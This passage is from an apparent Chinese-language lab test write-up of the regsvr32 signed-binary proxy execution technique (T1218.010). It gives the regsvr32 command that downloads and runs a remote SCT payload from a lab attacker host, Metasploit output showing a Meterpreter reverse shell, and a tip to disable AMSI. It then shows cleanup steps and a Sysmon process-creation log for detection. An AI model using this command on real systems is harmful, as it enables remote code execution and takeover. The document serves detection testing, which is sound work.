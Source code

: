 #### 3. 靶机执行Payload

**命令**：
```cmd
regsvr32.exe /s /n /u /i:http://192.168.126.146:8080/06Yud7aXXqYqT.sct scrobj.dll
```

**结果**：
- `regsvr32.exe`下载并执行SCT文件，触发Meterpreter反向Shell。
- 攻击机接收会话：
  ```
  [*] 192.168.126.149 web_delivery - Handling .sct Request
  [*] 192.168.126.149 web_delivery - Delivering Payload (1900 bytes)
  [*] Sending stage (180291 bytes) to 192.168.126.149
  [*] Meterpreter session 1 opened (192.168.126.146:4444 -> 192.168.126.149:49381) at 2023-10-01 10:00:00 +0800
  meterpreter > getuid
  Server username: 12306Br0-PC\12306Br0
  ```

**注意**：
- 测试中可能因PowerShell策略或安全补丁（如KB3172614）导致失败，需调整靶机配置（如禁用AMSI或降低PowerShell限制）。

#### 4. 清理

**靶机**：
```cmd
taskkill /IM regsvr32.exe /F
taskkill /IM wscript.exe /F
```

**攻击机**：
- 关闭Metasploit会话：`exit`
- 停止Web服务器。

## 测试留痕

### Sysmon日志（Event ID 1：进程创建）

```xml
日志名称: Microsoft-Windows-Sysmon/Operational
来源: Microsoft-Windows-Sysmon
日期: 2023/10/01 10:00:00
事件 ID: 1
任务类别: Process Create
级别: 信息
用户: 12306Br0-PC\12306Br0
计算机: 12306Br0-PC
描述:
Process Create:
RuleName: technique_id=T1218.010,technique_name=Signed Binary Proxy Execution
UtcTime: 2023-10-01 02:00:00.123
ProcessGuid: {bb1f7c32-2149-5e9b-0000-00107066a000}
ProcessId: 2608
Image: C:\Windows\System32\regsvr32.exe
FileVersion: 6.1.7600.16385
Description: Microsoft(C) Register Server
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: REGSVR32.EXE
CommandLine: regsvr32.exe /s /n /u /i:http://192.168.126.146:8080/06Yud7aXXqYqT.sct scrobj.dll
CurrentDirectory: C:\Users\12306Br0\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-5fc3-5e99-0000-00201ae20600}
LogonId: 0x6e21a
TerminalSessionId: 1
```